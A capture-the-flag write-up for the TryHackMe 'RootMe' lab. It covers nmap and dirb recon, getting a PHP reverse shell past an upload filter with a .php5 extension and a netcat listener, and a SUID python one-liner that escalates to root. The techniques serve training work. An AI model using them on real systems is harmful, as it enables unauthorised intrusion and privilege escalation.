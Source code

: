 # RootMe
A ctf for beginners, can you root me?
![](Images/default_tryhackme.png)
## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.

![](Images/web.png)

1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.

![](Images/panel.png)

## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 

![](Images/shell.png)
```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 

![](Images/suid.png)

Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading

